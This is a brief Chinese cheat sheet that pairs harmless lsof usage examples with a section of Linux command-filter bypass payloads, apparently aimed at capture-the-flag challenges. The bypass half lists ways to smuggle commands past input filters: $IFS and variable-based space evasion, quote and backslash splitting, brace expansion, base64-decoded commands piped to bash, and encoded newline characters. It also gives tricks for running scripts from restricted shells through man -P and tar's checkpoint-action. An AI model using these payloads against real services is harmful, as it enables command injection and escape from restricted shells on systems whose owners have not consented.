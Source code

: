 ### lsof命令
```
列出某个用户打开文件的信息：
lsof -u username

列出以进程号打开的文件： 
lsof -p 1,234

列出所有网络连接：
lsof -i 

列出所有tcp连接：
lsof -i tcp 

查出22端口现在运行什么程序： 
lsof -i :22

列出谁在使用某个端口：
lsof -i tcp:3389

列出某个用户所有活跃的网络连接：
lsof -a -u username -i
```

### linux命令bypass
```
使用反斜杠
w\ho\am\i

空格绕过
使用<和>
cat<>flag
cat<1.sh 
使用特殊变量:$IFS
cat$IFS\flag
cat${IFS}flag

使用特殊变量${9}
${9}对应空字符串关键字过滤绕过，使用$*和$@，$x(x代表1-9),${x}(x>=10)
ca$*t  flag
ca$@t flag
ca$2t flag
ca${11} flag

花括号还有一种用法：{command,argument}
{cat,flag}

使用双引号和单引号
ca"t" 1.sh
ca't' 1.sh

使用base64
echo 'Y2F0IC4vZmxhZwo=' |base64 -d |bash

使用进制
$(printf '\x00\x00\x00\x00\x00')
使用%0a(\n)，%0d(\r)，%09(\t)等字符也可以bypass

突破终端限制执行脚本内容：
man -P /tmp/runme.sh man

突破终端限制执行脚本中的命令：
tar cvzf a.tar.gz --checkpoint-action=exec=./a.sh --checkpoint=1 a.sh 
```